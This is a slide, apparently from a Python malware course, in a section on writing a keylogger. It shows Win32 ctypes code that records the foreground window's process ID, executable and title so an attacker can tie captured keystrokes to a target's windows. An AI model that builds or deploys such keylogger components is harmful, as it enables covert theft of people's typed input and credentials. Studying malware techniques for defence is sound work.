

Python Malwares (cont.)
Writing a Keylogger (cont.)
Next, we will write the function get_current_process, which will get the currently accessed window by the user.
This is majorly used to identify the window name so that the attacker knows which window the target pressed the captured keys for.
This essentially involves Win32 programming.
def get_current_process():
    hwnd = user32.GetForegroundWindow()
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd, byref(pid))
    process_id = str(pid.value)
    executable = create_string_buffer(b'\x00' * 512)
    h_process = kernel32.OpenProcess(0x400 | 0x10, False, pid)
    psapi.GetModuleBaseNameA(h_process, None, byref(executable), 512)
    window_title = create_string_buffer(b'\x00' * 512)
    length = user32.GetWindowTextA(hwnd, byref(window_title), 512)
    add_info(process_id,
            executable.value.decode("utf-8", "replace"),
            window_title.value.decode("utf-8", "replace"))
    ...
136